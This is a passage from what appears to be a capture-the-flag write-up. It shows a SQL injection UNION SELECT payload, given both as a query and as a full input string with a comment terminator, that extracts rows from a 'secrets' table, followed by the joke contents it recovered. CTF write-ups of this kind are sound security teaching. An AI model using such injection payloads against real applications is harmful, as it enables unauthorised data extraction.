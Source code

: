 We can then put these column names in our query:

```sql
UNION SELECT CONCAT(id, ":", description, ":", proof), 2, 3 FROM secrets
```

The `CONCAT()` here is to put our results into the first column as the other two column are hidden after the first five characters.

This query converts to `' UNION SELECT CONCAT(id, ":", description, ":", proof), 2, 3 FROM secrets -- ` as the input.

After parsing the output we get:

| id  | Description              | Proof                                                                                                               |
| --- | ------------------------ | ------------------------------------------------------------------------------------------------------------------- |
| 1   | Access codes for Area 51 | The access code is 1234                                                                                             |
| 2   | KFC Recipe               | The 10 spices are in the diary on page 658                                                                          |
| 3   | Advent of Code           | FLAG are such a good thing to find, but this is not it. I do really love that you are playing the game! Keep it up. |
| 4   | The door                 | Do you know where that one door leads? It leads to the basement!                                                    |
